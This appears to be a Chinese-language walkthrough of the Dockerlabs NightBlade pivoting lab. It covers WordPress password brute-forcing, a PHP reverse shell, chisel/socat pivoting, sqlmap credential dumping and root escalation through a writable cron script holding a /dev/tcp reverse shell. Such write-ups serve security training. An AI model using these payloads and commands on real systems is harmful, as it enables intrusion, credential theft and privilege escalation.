# Dockerlabs-NightBlade

# NightBlade

​​

具有多个漏洞的枢轴实验室

---

靶场部署

```
❯ sudo bash auto_deploy.sh maquina1.tar maquina2.tar

                            ##        .       
                      ## ## ##       ==       
                   ## ## ## ##      ===       
               /""""""""""""""""\___/ ===     
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/         
                 \    \        __/          
                  \____\______/             
                                        
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                       
                                   
Creando red pivoting1 con subred 10.10.10.0/24 y puerta de enlace 10.10.10.1
La red pivoting1 ha sido creada exitosamente con la subred 10.10.10.0/24.
Creando red pivoting2 con subred 20.20.20.0/24 y puerta de enlace 20.20.20.1
La red pivoting2 ha sido creada exitosamente con la subred 20.20.20.0/24.

Estamos desplegando la máquina vulnerable del archivo maquina1.tar, espere un momento.

Máquina desplegada desde maquina1.tar, sus direcciones IP son --> 10.10.10.2 20.20.20.2

Estamos desplegando la máquina vulnerable del archivo maquina2.tar, espere un momento.

Máquina desplegada desde maquina2.tar, sus direcciones IP son --> 20.20.20.3

Presiona Ctrl+C cuando termines con las máquinas para eliminarlas
```

端口扫描

```
❯ sudo nmap $ip -p- -n -Pn -sV -sC -sS -oN ports
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-28 07:30 CST
Nmap scan report for 10.10.10.2
Host is up (0.0000030s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: NightBlade Gaming Network
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-robots.txt: 2 disallowed entries
| /wp/wp-admin/
|_4c334d7a5933497a6445417662476c7a644335306548513d0a
MAC Address: 02:42:0A:0A:0A:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.23 seconds
```

目录扫描

```
❯ dirsearch -u http://10.10.10.2 -x 403,404

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/ss/dockerlab/nightblade/reports/http_10.10.10.2/_26-03-28_07-42-32.txt

Target: http://10.10.10.2/

[07:42:32] Starting:
[07:42:46] 301 -  313B  - /javascript  ->  http://10.10.10.2/javascript/
[07:42:53] 200 -  104B  - /robots.txt
[07:42:59] 301 -  305B  - /wp  ->  http://10.10.10.2/wp/
[07:43:07] 200 -    3KB - /wp/wp-login.php
[07:43:07] 200 -   12KB - /wp/

Task Completed
```

访问robots.txt, 里面提供了一个wordpress的目录和一串hex字符.

​​

将hex字符串进行16进制转换, 再进行一次base64解码, 将得到txt文件.

```
❯ echo 4c334d7a5933497a6445417662476c7a644335306548513d0a |xxd -r -p|base64 -d
/s3cr3t@/list.txt
```

经过查看, 发现list.txt内包含的是密码列表, 我们先将该文件下载备用.

​​

现在去访问/wp/wp-admin, 发现靶机的wordpress配置有问题, 无法正常跳转到wp后台.

执行`docker exec -it <maquina1 CONTAINER ID> bash`​, 进入maquina1容器内部, 编辑`/var/www/html/wp/wp-config.php`​,添加如下代码后, wordpress将会恢复正常:

```
define('WP_HOME', 'http://10.10.10.2/wp');
define('WP_SITEURL', 'http://10.10.10.2/wp');
```

使用wpscan扫描, 看到一个用户`krav0`​

```
❯ wpscan --url http://10.10.10.2/wp/ --enumerate u,vp --api-token XXXXXXXX
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.

[+] URL: http://10.10.10.2/wp/ [10.10.10.2]
[+] Started: Sat Mar 28 09:18:39 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.58 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.10.2/wp/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.10.2/wp/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.10.10.2/wp/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.10.2/wp/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.9.4 identified (Latest, released on 2026-03-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.10.2/wp/feed/, <generator>https://wordpress.org/?v=6.9.4</generator>
 |  - http://10.10.10.2/wp/comments/feed/, <generator>https://wordpress.org/?v=6.9.4</generator>

[+] WordPress theme in use: twentytwentyfive
 | Location: http://10.10.10.2/wp/wp-content/themes/twentytwentyfive/
 | Latest Version: 1.4 (up to date)
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://10.10.10.2/wp/wp-content/themes/twentytwentyfive/readme.txt
 | [!] Directory listing is enabled
 | Style URL: http://10.10.10.2/wp/wp-content/themes/twentytwentyfive/style.css
 | Style Name: Twenty Twenty-Five
 | Style URI: https://wordpress.org/themes/twentytwentyfive/
 | Description: Twenty Twenty-Five emphasizes simplicity and adaptability. It offers flexible design options, suppor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.4 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.10.2/wp/wp-content/themes/twentytwentyfive/style.css, Match: 'Version: 1.4'

[+] Enumerating Vulnerable Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <============================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] krav0
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.2/wp/wp-json/wp/v2/users/?per_page=100&page=1
 |  Rss Generator (Aggressive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 2
 | Requests Remaining: 23

[+] Finished: Sat Mar 28 09:18:44 2026
[+] Requests Done: 53
[+] Cached Requests: 7
[+] Data Sent: 14.453 KB
[+] Data Received: 537.726 KB
[+] Memory used: 259.141 MB
[+] Elapsed time: 00:00:04
```

继续用wpscan进行密码爆破, 字典使用刚才下载好的list.txt.

```
❯ wpscan --url http://172.17.0.2/wordpress --passwords list.txt --usernames krav0
```

​​

使用爆破出的密码,  登录wordpress后台:  `http://10.10.10.2/wp/wp-login.php`​

安装一个wp console插件并启用它, 当然, 你也可以用编辑主题文件的方式写入代码.

​​

粘贴如下代码到WP Console中, 然后执行Run, 监听的窗口将收到反弹shell

```
<?php
$sock = fsockopen("10.10.10.1", 1234); 
if ($sock) {
    fwrite($sock, "Connection established\n");
    $fd = intval($sock);
    proc_open("/bin/bash -i", [
        0 => $sock, // STDIN
        1 => $sock, // STDOUT
        2 => $sock  // STDERR
    ], $pipes);
    fclose($sock);
}
?>
```

​​

​​

升级为交互式shell

```
script /dev/null -c bash
ctrl + z
stty raw -echo;fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows 48 cols 207
```

​​

通过ping脚本我们可以发现网络内的另一台主机`20.20.20.3`​

```
www-data@ecc8658e863a:/tmp$ for i in {1..254};do ping -c 1 -W 1 20.20.20.$i |grep from;done
64 bytes from 20.20.20.2: icmp_seq=1 ttl=64 time=0.074 ms
64 bytes from 20.20.20.3: icmp_seq=1 ttl=64 time=0.045 ms
```

我们使用chisel来实现端口转发, 攻击机Kali执行chisel启动server:

```
./chisel server -p 9999 --reverse
```

然后, 上传chisel, socat和pspy64到靶机中.

靶机执行chisel client连接到server:

```
./chisel client 10.10.10.1:9999 R:1080:socks &
```

我们还需要修改 `/etc/proxychains4.conf`​配置文件, 添加`socks5 127.0.0.1 1080`​.

现在我们可以对新的主机`20.20.20.3`​进行端口扫描

```
❯ sudo proxychains -q nmap 20.20.20.3 -n -Pn -sT -sV -sC --top-ports 150 2>/dev/null
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-28 09:56 CST
Nmap scan report for 20.20.20.3
Host is up (0.00076s latency).
Not shown: 148 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 ee:f6:33:7f:c0:d9:1c:5e:d0:e1:70:12:05:07:cc:fb (ECDSA)
|_  256 fc:5e:28:da:c7:16:cc:27:60:db:8e:6a:c0:8b:96:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.84 seconds
```

目录扫描

```
❯ gobuster dir -u http://20.20.20.3 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt --proxy socks5://127.0.0.1:1080
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://20.20.20.3
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Proxy:                   socks5://127.0.0.1:1080
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 6592]
/index.html           (Status: 200) [Size: 10671]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882180 / 882184 (100.00%)
===============================================================
Finished
===============================================================
```

访问`http://20.20.20.3/index.php`​, 在搜索框输入`1'`​, 系统返回了错误信息, 意味着这里存在sql注入.

​​

​​

​​

使用sqlmap将`sys_auth`​表的内容dump出来, 这是`nightblade`​的凭证.

```
❯ proxychains -q sqlmap -u "http://20.20.20.3/index.php?search=1" --batch -D nightblade_internal -T sys_auth --dump
```

​​

ssh登录到`20.20.20.3`​主机, 可以看到该用户属于`nightblade`​组.

```
❯ proxychains -q sshpass -p "dragon" ssh nightblade@20.20.20.3 -o StrictHostKeyChecking=no
```

​​

查找属于该组的所有文件,  你可以发现位于opt目录下的一个脚本`check.sh`​.

```
nightblade@2747e63fa9ac:~$ find / -group nightblade -type f 2>/dev/null |grep -v proc
/home/nightblade/.bashrc
/home/nightblade/.profile
/home/nightblade/.bash_logout
/home/nightblade/.bash_history
/home/nightblade/.cache/motd.legal-displayed
/opt/scripts/check.sh
```

当前用户有权限修改该文件.

```
nightblade@2747e63fa9ac:/tmp$ cat /opt/scripts/check.sh
#!/bin/bash
echo "[$(date)] Checking services..." >> /var/log/check.log
service apache2 status >> /var/log/check.log
service mysql status >> /var/log/check.log

nightblade@2747e63fa9ac:/tmp$ ls -al /opt/scripts/check.sh
-rwxrwxr-x 1 root nightblade 160 Mar 24 20:00 /opt/scripts/check.sh
```

执行pspy64查看进程, 发现这个脚本在定时运行.

​​

所以, 我修改了check.sh的内容:

```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/20.20.20.2/4444 0>&1'
```

同时, 需要在主机`10.10.10.2`​上使用socat进行端口转发, 这样就可以监听`4444`​端口了:

```
www-data@ecc8658e863a:/tmp$ ./socat TCP-LISTEN:4444,fork TCP:10.10.10.1:4444 &
```

等待一会儿后, kali监听的窗口就会收到反弹shell,  你会发现现在是root用户了~

​​

---

==END==

‍
